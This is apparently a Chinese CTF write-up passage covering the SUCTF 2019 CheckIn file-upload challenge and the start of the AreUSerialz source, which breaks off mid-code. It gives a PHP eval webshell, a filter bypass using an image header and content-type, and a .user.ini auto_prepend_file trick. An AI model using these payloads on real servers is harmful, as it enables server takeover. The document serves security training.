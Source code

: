 ![1626675291378](buuweb_page1.assets/1626675291378.png)

但是这边有个问题，为什么payload里的file为伪协议的方式就读不到flag，值得思考。

## [SUCTF 2019]CheckIn

随意上传一个，发现过滤了<?

![1626675690853](buuweb_page1.assets/1626675690853.png)

使用下方一句话尝试绕过一下

```
<script language="php">eval($_POST[1]);</script>
```

尝试了php php3 php4 php5 pht phtml都不合法，那就只能传图片喽

![1626675873000](buuweb_page1.assets/1626675873000.png)

提示我们不是图片，那给一句话加个文件头试试，content-type习惯性改为图片的格式

![1626675950328](buuweb_page1.assets/1626675950328.png)

​	这样就上传成功了，并返回给了我们目录且有index.php，这不明摆着告诉我们使用.user.ini配置文件嘛

​	.user.ini的配置原理可以简单理解为当前目录下的php文件都包含一句话，利用条件为目录下要有php文件。

```
auto_prepend_file=1.jpg
```

![1626676088492](buuweb_page1.assets/1626676088492.png)

蚁剑连接即可(这题好像自动删除目录下的文件，速度要快)

```
http://989256bf-a20c-41b3-9229-4d4740e3bfd7.node4.buuoj.cn/uploads/4205d8dde7a291d9276e8bc3536868f3/index.php
```

flag在根目录

![1626676320604](buuweb_page1.assets/1626676320604.png)

## [网鼎杯 2020 青龙组]AreUSerialz

```php
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
```